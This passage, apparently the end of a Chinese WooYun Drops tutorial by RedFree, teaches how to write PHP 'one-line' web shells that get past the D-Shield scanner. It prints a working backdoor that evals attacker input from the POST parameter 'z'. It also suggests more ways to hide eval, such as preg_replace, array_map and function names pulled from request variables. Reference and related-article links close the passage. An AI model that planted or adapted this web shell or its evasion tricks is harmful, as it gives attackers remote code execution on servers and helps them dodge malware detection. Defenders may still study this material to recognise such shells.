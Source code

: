 ```
<?php
$x=$_POST['z'];
@eval("\$safedg = $x;");  
?>

```

当然您不满意的话可以继续搞，连 eval 都给拆了！使用 preg_replace、array_map 或是从 REQUEST 的变量中取得 eval、assert……，实没 D 盾都会有不同等级的报告(提示可疑但不认识，毕竟这些不常用函数都挺有风险……)，我是挺懒，不想搞了……
看效果：

![2013122818201195763_jpg.jpg](img/img8_u45_jpg.jpg)

关于如何玩转一句话已经写的差不多了(本人水平问题 ASPX、PHP 未能写的更详细！以后补充……)。如果将来一句话因为关键字被杀实再玩不鸟了(可能性不太大)，那就转业自写 Customize 脚本吧，至少文件读写，数据库连接这些功能是不会被杀的。

参考：

[`qqhack8.blog.163.com/blog/static/114147985201211292209893/`](http://qqhack8.blog.163.com/blog/static/114147985201211292209893/)

[`hi.baidu.com/monyer/item/a218dbadf2afc7a828ce9d63`](http://hi.baidu.com/monyer/item/a218dbadf2afc7a828ce9d63)

版权声明：未经授权禁止转载 [RedFree](http://drops.wooyun.org/author/RedFree "由 RedFree 发布")@[乌云知识库](http://drops.wooyun.org)

分享到：

### 相关日志

*   [攻击 JavaWeb 应用[3]-SQL 注入[1]](http://drops.wooyun.org/tips/236)
*   [Modsecurity 原理分析–从防御方面谈 WAF 的绕过（一）](http://drops.wooyun.org/tips/3804)
*   [SQL Injection via DNS](http://drops.wooyun.org/tips/4605)
*   [2014 年澳大利亚信息安全挑战 CySCA CTF 官方 write up Web 篇](http://drops.wooyun.org/tips/2444)
*   [Drupal – pre Auth SQL Injection Vulnerability](http://drops.wooyun.org/papers/3197)
*   [Python Pickle 反序列化带来的安全问题](http://drops.wooyun.org/papers/66)